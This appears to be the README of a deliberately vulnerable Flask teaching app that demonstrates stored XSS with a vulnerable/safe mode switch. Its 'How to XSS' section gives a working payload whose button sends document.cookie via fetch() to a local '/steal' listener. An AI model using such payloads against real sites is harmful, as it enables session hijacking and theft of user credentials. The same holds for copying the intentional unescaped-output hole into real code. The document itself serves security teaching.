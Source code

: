 # Flask Books XSS

## Running manually
### Requirements
* Python 3.11 or 3.12
 
1. Create & activate virtual environment
```bash
python -m venv .venv
# Windows
.\.venv\Scripts\activate.bat

# Linux/macOS
source .venv/bin/activate
```

2. Install dependencies

```bash
pip install -r requirements.txt
```

3. Create .env file like `example.env` (Note: Important to set `VULNERABLE_MODE`)

4. Run project

```bash
flask --app flask_books_xss run
```

## Running in Docker

1. Build

```bash
docker build -t books-xss:latest .
```

2. Run (in vulnerable mode)

```bash
docker run --rm -p 8080:5000 -e VULNERABLE_MODE=true books-xss:latest
```
-> Access page on http://localhost:8080

3. Run (in safe mode)
```bash
docker run --rm -p 8080:5000 -e VULNERABLE_MODE=false books-xss:latest
```

-> Access page on http://localhost:8080 

## How to XSS (fetch cookies)

1. Run app in vulnerable mode (as described previously)

2. As an example, paste this into the Title field:

```html
<div style="padding:8px;border:1px solid #cc0000;background:#fff7f7">
  <strong>🔥 Limited offer:</strong>
  <button style="padding:6px 10px;border:0;background:#0070f3;color:#fff;cursor:pointer"
    onclick='(function(){
		fetch("http://127.0.0.1:4000/steal?c=" + encodeURIComponent(document.cookie)); })()'>
    Buy now
  </button>
</div>
```

3. Open an external command-line session

4. Run `python -m http.server -port 4000`

5. On the web app, click "buy now" which will trigger the cookie fetching

6. Look at your command-line terminal, which should have logged a request with cookie information in the URL

## Project layout

```bash
flask-books-xss/
├─ pyproject.toml                 # Poetry 2 (PEP 621)
├─ flask_books_xss/
│  ├─ __init__.py                 # app factory, env parsing
│  ├─ app.py                      # CLI entry (exposes `app`)
│  ├─ db.py / storage.py          # SQLAlchemy + helpers
│  ├─ routes.py                   # web blueprint
│  └─ templates/
│     └─ index.html               # uses {{ vulnerable }} flag
└─ (instance/)                    # created at runtime for SQLite

```

